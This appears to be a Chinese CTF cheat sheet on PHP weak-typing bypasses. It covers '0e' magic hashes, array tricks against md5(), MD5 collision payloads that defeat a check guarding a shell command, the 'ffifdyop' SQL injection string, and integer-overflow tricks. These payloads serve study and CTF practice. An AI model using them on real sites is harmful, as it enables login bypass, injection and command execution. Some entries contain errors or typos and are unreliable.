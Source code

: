 ## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false == "0"
"00" == true
'123' == 123
'abc' == 1 == true  常见于字符串判断相等。
'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1

?num=1+2
$a=$_GET['num'] ==1
intval(a) == 3 
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 

echo intval(0x117c,0) // 输出10进制4476  
第二个参数默认base是10，如果 base 是0则通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

intval(010574,0) //返回值为4476
intval(+010574,0) //返回值为4476

intval(4476.1,0) //返回值为4476
intval(4476.10,0) //返回值为4476

intval(0) == 'flag字符串'
intval(aaa123) == 'flag字符串'
intval(false) == 'flag字符串'
intval(md5(phpinfo())) == '字符串' == 0  字母开头
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md5(QNKCDZO)==0

md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。


^
## **sha哈希**
和md5类似，

以下值在sha1加密后以oE开头：
```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```
^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。

```
$arr[$_GET['0']]=1;
if($arr[]==1){ //末尾为1？ 
die($flag);
}

?0=2147483647   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```


```
$arr[$_GET['0']]=1;
if($arr[]=1){  //$arr[]=1意思是给数组下一个下标赋值为1
die();
}else{
echo $flag;
}

?0=9223372036854775807     //数组下标溢出，要刚刚好，多了会截断，刚刚好时，经过$arr[]=1下标直接溢出，无法赋值。
```